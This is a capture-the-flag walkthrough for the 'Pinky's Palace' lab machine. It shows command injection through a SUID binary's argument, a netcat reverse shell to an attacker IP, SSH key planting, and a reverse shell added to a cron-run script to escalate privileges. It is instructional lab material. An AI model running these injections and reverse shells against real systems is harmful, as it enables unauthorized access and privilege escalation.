 ```
stefano@Pinkys-Palace:~/tools$ echo $TERM
xterm-256color
stefano@Pinkys-Palace:~/tools$ ./qsub ";touch /tmp/h4x"
[+] Input Password: xterm-256color

[+] Welcome to Question Submit!
stefano@Pinkys-Palace:~/tools$ ls -al /tmp/h4x
-rw-r--r-- 1 pinky stefano 0 Sep  7 16:27 /tmp/h4x
```

That worked! As we also see, the file has owner info UID pinky and GID stefano (that's the skipped part from above). As SUID is set it runs always as pinky. Time for a reverse shell!

## Access as pinky

Good for us `nc` has the `-e` option on that machine, that makes it a bit easier. A simple reverse shell can be spawned via `qsub` in that way: `./qsub ";nc -e /bin/bash 10.20.20.135 4444"`. And voila, we have a connection.

We are having access as pinky now. After some enumeration I mentioned that this user has write permissions to the file `/usr/local/bin/backup.sh`. The problem is that the group is wrong and we cannot really access it. This occurs because of the file we use to gain a reverse shell. A workaround is to gain directly access via SSH as pinky. Checking first if pinky is allowed to login: 

```
stefano:x:1002:1002::/home/stefano:/bin/bash
```

Yes, he is. Then we just place a public key of a SSH key and login with that key.

Now we have access to backup.sh!

```
#!/bin/bash

rm /home/demon/backups/backup.tar.gz
tar cvzf /home/demon/backups/backup.tar.gz /var/www/html
#
#
#
```

Looks like it is used by a cronjob. Let's put there also a reverse shell inside with nc (I know you know how). After that, just wait.

## Access as demon

A connection will pop up. We have access as demon now. Searching for files owned by the user I found `/daemon/panel`. `file` stated that it's an ELF, non stripped. I copied it to my box via scp using pinky's user account (copied the binary to `/tmp`).

### 2nd binary

Let's gain some infos: 
